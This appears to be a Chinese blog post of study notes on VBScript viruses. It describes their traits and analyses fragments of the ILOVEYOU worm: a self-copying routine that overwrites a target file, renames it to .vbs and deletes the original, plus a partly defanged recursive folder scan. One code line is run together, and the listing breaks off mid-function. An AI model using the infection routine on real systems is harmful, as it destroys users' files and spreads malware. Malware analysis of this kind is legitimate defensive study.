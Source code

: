 ```yaml
---
layout: post
title: Vbs脚本病毒
subtitle: Vbs脚本病毒的介绍以及学习笔记
categories: markdown
tags: [Vbs virus]
---
```






# Vbs脚本病毒学习笔记（1）

## 1.Vbs脚本病毒的特点以及发展现状

​        VBS病毒是用VB Script编写而成，该脚本语言功能非常强大，它们利用Windows系统的开放性特点，通过调用一些现成的Windows对象、组件，可以直接对文件系统、注册表等进行控制，功能非常强大。应该说病毒就是一种思想，但是这种思想在用VBS实现时变得极其容易。VBS脚本病毒具有如下几个特点：

1.**编写简单**，初学者也能很快学习并且编写出一个简易的Vbs脚本病毒。

2.**破坏力大**，脚本病毒不仅仅会破坏用户系统文件，还可以使得邮件服务器崩溃，网络发生阻塞。

3.**较强的感染能力**，由于是脚本直接解释执行，因此可以直接通过自我复制的方式感染其他的同类文件。

4.**传播范围较大**，通过htm文档，Email附件等，可以较短时间内大量传播。

5.**欺骗性较强**，脚本病毒为了得到运行的机会，往往会采用各种让用户不大注意的手段，例如在某个附件名后面采用双后缀，比如Beauty.jpg.vbs。由于系统默认不会显示后缀，用户就会以为它是一个JPG格式的图片文件。

6.**病毒生产机实现起来非常容易**。所谓病毒生产机，就是可以按照用户的意愿，生产病毒的机器（当然，这里指的是程序），目前的病毒生产机，之所以大多数都为脚本病毒生产机，其中最重要的一点还是因为脚本是解释执行的，实现起来非常容易。

## 2.Vbs脚本病毒的原理分析

​        VBS脚本病毒一般是直接通过自我复制来感染文件的。病毒中的绝大部分代码都可以直接附加在其他同类程序的中间，如爱虫病毒则是直接生成一个文件的副本，将病毒代码拷入其中，并以原文件名作为病毒文件名的前缀，vbs作为后缀。下面我们通过爱虫病毒的部分代码具体分析一下这类病毒的感染和搜索原理：

```vbscript
Set fso=createobject("scripting.filesystemobject")  '创建一个文件系统对象
　　set self=fso.opentextfile(wscript.scriptfullname,1) '读打开当前文件（即病毒本身）
　　vbscopy=self.readall　　  ' 读取病毒全部代码到字符串变量vbscopy…… 
　　set ap=fso.opentextfile(目标文件.path,2,true) ' 写打开目标文件，准备写入病毒代码
　　ap.write vbscopy　　　　　　  ' 将病毒代码覆盖目标文件
　　ap.close
　　set cop=fso.getfile(目标文件.path)   '得到目标文件路径
　　cop.copy(目标文件.path & ".vbs")　  ' 创建另外一个病毒文件（以.vbs为后缀）
　　目标文件.delete(true)　　　'删除目标文件
```

​        **我们可以看到Vbs病毒感染正常文件的方式：通过将自身的代码赋给字符串变量，将字符串覆盖写到目标文件，并且创建一个以目标文件名为前缀，vbs为后缀的文件副本，最后将原来的目标文件删除。**接着我们继续分析Vbs如何进行文件搜索的：

```vbscript
sub scan(folder_)　　'scan函数定义，
　　on error resume next　　 '如果出现错误，直接跳过，防止弹出错误窗口
　　set folder_=fso.getfolder(folder_)
　　　　 set files=folder_.files　　  ' 当前目录的所有文件集合
　　　　 for each file in filesext=fso.GetExtensionName(file)　　'获取文件后缀
　　　　 ext=lcase(ext)　　　  '后缀名转换成小写字母
　　　　　if ext="mp5" then　　'如果后缀名是mp5，则进行感染。请自己建立相应后缀名的文件，最好是非正常后缀名 ，以免破坏正常程序。
　　　　Wscript.echo (file)
　　　end if
　　next
　　set subfolders=folder_.subfolders
　　for each subfolder in subfolders　　'搜索其他目录；递归调用
```